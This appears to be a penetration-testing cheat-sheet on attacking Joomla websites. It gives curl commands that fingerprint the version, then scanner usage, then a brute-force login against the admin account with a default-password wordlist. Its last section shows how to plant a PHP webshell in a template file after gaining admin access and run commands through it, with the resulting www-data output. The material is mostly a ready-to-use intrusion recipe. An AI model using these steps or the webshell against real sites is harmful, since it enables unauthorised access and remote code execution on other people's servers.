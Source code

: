 ## Jommla

Interesting File(s) : 
- /robots.txt

```bash
$ curl -s http://$TARGET/ | grep Joomla
$ curl -s http://$TARGET/README.txt | head -n 5
$ curl -s http://$TARGET/administrator/manifests/files/joomla.xml | xmllint --format -
```

https://github.com/OWASP/joomscan
https://github.com/drego85/JoomlaScan

```bash
$ sudo pip3 install droopescan
$ droopescan -h
$ droopescan scan joomla --url http://$TARGET/

$ python2.7 joomlascan.py -u http://$TARGET
$ python3 joomla-brute.py -u http://$TARGET -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 ```

As administrateur, we can edit template & modèles to add a webshell or reverse shell (same as wordpress) :

```php
http://$TARGET/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D
system($_GET['cmd']);
```

```bash
curl -s http://$TARGET/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```